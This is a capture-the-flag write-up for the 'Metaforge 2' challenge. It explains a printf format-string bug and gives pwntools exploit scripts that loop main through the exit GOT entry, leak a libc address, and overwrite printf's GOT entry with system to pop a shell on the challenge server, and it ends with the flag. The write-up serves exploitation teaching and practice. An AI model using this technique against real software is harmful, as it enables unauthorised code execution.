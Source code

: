 # Metaforge 2

nc 0.cloud.chals.io 30732

`Same challenge but pop a shell`

## Challenge

I'm not going to re-iterate everything that was discovered in the Metaforge 1 writeup, but the important thing to remember is that we can control where `exit` goes.

Here's a refresh on the code.
```c
void main(void)

{
  char *local_78;
  size_t local_70;
  char local_68 [96];
  
  local_70 = 0x60;
  memset(local_68,0,0x60);
  local_78 = local_68;
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("This challenge seems easy enough");
  getline(&local_78,&local_70,stdin);
  printf(local_68);
                    /* WARNING: Subroutine does not return */
  _exit(0);
}

void win(void)

{
  int __in_fd;
  
  __in_fd = open("./flag.txt",0,0);
  sendfile(1,__in_fd,(off_t *)0x0,0x60);
  return;
}
```

Previously we overwrote the `exit@got.plt` entry to return to win.

```python
from pwn import *

elf = context.binary = ELF('./chall')
#p = process('./chall')
p = remote('0.cloud.chals.io', 30732)

#Offset to write address at
offset = 8
#Where we want to write to (exit@got.plt)
target = 0x404000
#What we want to write it to (win function)
win = 0x0000000000401196

payload = fmtstr_payload(offset, {target : win})
p.sendline(payload)
p.interactive()
```

But in order to get the next flag we need to pop a shell on the system.

Heres a list of things we need to achieve in order to do this:
- Re-iterate our printf vulnerability
- Obtain libc base
- Change printf to system

So first off, we can grab the libc and linker from the dockerfile that was given with the challenge.

To get an arbitrary number of printf vuln's, we can rewrite the `exit@got.plt` entry to just return to main. That way after every execution of main it just returns back to main in an infinite loop.

After than we can use the stack leaks with `%p` in order to get our libc base. With some play testing I was able to see that offset 37 had a memory address located in the libc range. With that I was able to calculate the libc base.

After that, we can simply just overwrite the got entry for printf to system.

Heres that in code:

```python
from pwn import *

elf = context.binary = ELF('./chall')
#p = process('./chall')
p = remote('0.cloud.chals.io', 30732)

#Setting our libc (note that patchelf was used to utilize libc and linker from docker)
libc = elf.libc

#Offset
offset = 8
#Memory to write to
ret_address = 0x404000
#What to write
desire = 0x4011db

#Looping back to main by writing mains address to exit@got.plt
payload = fmtstr_payload(offset, {ret_address : desire})
p.sendlineafter(b'This challenge seems easy enough', payload)

#Leaking libc address and calculating base
payload = b'%37$p'
p.sendlineafter(b'This challenge seems easy enough', payload)
p.recvline() # junk
leak = int((p.recvuntil(b'\n')[:-1]), 16)
libc.address = leak - 0x276ca
log.info(hex(libc.address))

#We really only need to overwrite the last two bytes of the libc address because its already a libc address with a different offset
payload = fmtstr_payload(offset, {0x404010 : p64(libc.sym['system'])[:2]})
p.sendlineafter(b'This challenge seems easy enough', payload)
p.interactive()
```

## Flag

`SIVUSCG{NOW_THIS_IS_WHAT_WE_CALL_ROP_24}`